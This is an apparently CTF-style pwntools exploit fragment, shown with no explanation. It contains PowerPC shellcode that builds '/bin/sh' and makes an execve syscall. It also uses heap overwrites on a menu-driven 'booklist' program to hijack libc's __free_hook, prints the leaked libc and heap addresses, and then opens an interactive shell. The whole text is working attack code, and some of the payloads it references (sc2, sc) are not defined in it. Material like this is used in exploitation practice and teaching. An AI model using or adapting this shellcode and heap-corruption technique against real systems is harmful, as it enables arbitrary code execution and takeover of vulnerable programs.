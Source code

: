 ```python

sc3='''
li 4, 0
li 5, 0
li 0, 11
li 6, 0
addis 6, 6, 0x2f62
addi 6, 6, 0x696e
stw 6, 0(1)
li 6, 0
addis 6, 6, 0x2f73
addi 6, 6, 0x6800
stw 6, 4(1)
mr 3, 1
sc
'''

edit('1', '\x00'*0x18+p64(0x21)+\
    p64(0)*3+p64(0x31)+\
    p64(0)*5+p64(0x31)+p64(libc.sym['__free_hook'])+'\n')

add('A', 0x88, p64(heap+0x4b0+8)+asm(sc2)+'/bin/sh\x00'+'\n')
dele('1')
add('AA', 0x28, '\n')
add('B', 0x28, p64(heap+0x4b0)+'\n')
dele('A')

# 0x4000020020 booklist

success(hex(len(sc)))
success(hex(libc.address))
success(hex(heap))
r.interactive()
```